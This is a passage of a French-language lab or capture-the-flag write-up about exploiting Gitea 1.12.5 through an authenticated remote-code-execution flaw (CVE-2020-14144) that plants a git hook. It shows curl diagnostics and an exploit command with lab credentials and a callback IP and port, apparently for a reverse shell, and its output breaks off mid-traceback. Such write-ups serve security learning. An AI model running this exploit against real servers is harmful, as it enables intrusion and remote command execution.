 Sur l'interface du *Gitea* je vois en fin de page *Powered by Gitea Version: 1.12.5*.  

Cette version est vulnérable [à cet exploit](https://www.exploit-db.com/exploits/49571) de RCE authentifié. Le code créé un nouveau projet sur l'appli web et défini un hook qui permet l'exécution de commande.  

L'exploit n'a pas fonctionné au début car l'URL passée en paramètre ne veut pas de slash final ou plutôt le serveur n'aime pas qu'il y ait deux slashs :  

```plain
$ curl -I http://192.168.56.20:8585//user/login 
HTTP/1.1 404 Not Found 
Content-Type: text/html; charset=UTF-8 
Set-Cookie: lang=en-US; Path=/; Max-Age=2147483647 
Set-Cookie: i_like_gitea=83a842f319f6a9f4; Path=/; HttpOnly 
Set-Cookie: _csrf=jMZRG2AwHoiI1gc7ADBh6KeYWvI6MTY0Mzc2NzM0MTY0ODQ0NjYyOQ; Path=/; Expires=Thu, 03 Feb 2022 02:02:21 GMT; HttpOnly 
X-Frame-Options: SAMEORIGIN 
Date: Wed, 02 Feb 2022 02:02:21 GMT 

$ curl -I http://192.168.56.20:8585/user/login  
HTTP/1.1 200 OK 
Content-Type: text/html; charset=UTF-8 
Set-Cookie: lang=en-US; Path=/; Max-Age=2147483647 
Set-Cookie: i_like_gitea=38ed18ef922238f5; Path=/; HttpOnly 
Set-Cookie: _csrf=_u__uHywI4oRgaeOlIuS9bjFg3A6MTY0Mzc2NzM0NTA1OTczMjE1NA; Path=/; Expires=Thu, 03 Feb 2022 02:02:25 GMT; HttpOnly 
X-Frame-Options: SAMEORIGIN 
Date: Wed, 02 Feb 2022 02:02:25 GMT
```

J'ai remarqué cela avec Wireshark mais qu'importe une fois que l'on connait le truc :  

```plain
$ python gitea.py -v -t http://192.168.56.20:8585 -u frank -p password -I 192.168.56.1 -P 9999  
    _____ _ _______ 
   / ____(_)__   __|             CVE-2020-14144 
  | |  __ _   | | ___  __ _ 
  | | |_ | |  | |/ _ \/ _` |     Authenticated Remote Code Execution 
  | |__| | |  | |  __/ (_| | 
   \_____|_|  |_|\___|\__,_|     GiTea versions >= 1.1.0 to <= 1.12.5 

[+] Starting exploit ... 
   [>] login('frank', ...) 
   [>] Deleting repository : vuln 
   [>] Creating repository : vuln 
   [>] repo_set_githook_post_receive('vuln') 
   [>] logout() 
astuce: Utilisation de 'master' comme nom de la branche initiale. Le nom de la branche 
astuce: par défaut peut changer. Pour configurer le nom de la branche initiale 
astuce: pour tous les nouveaux dépôts, et supprimer cet avertissement, lancez : 
astuce:  
astuce:         git config --global init.defaultBranch <nom> 
astuce:  
astuce: Les noms les plus utilisés à la place de 'master' sont 'main', 'trunk' et 
astuce: 'development'. La branche nouvellement créée peut être rénommée avec : 
astuce:  
astuce:         git branch -m <nom> 
Dépôt Git vide initialisé dans /tmp/tmp.CxYwtR6dPD/.git/ 
[master (commit racine) aee96fb] Initial commit 
 1 file changed, 1 insertion(+) 
 create mode 100644 README.md 
Traceback (most recent call last): 
  File "gitea.py", line 241, in <module> 
    trigger_exploit(g.host, g.username, g.password, reponame, verbose=args.verbose) 
  File "gitea.py", line 180, in trigger_exploit 
```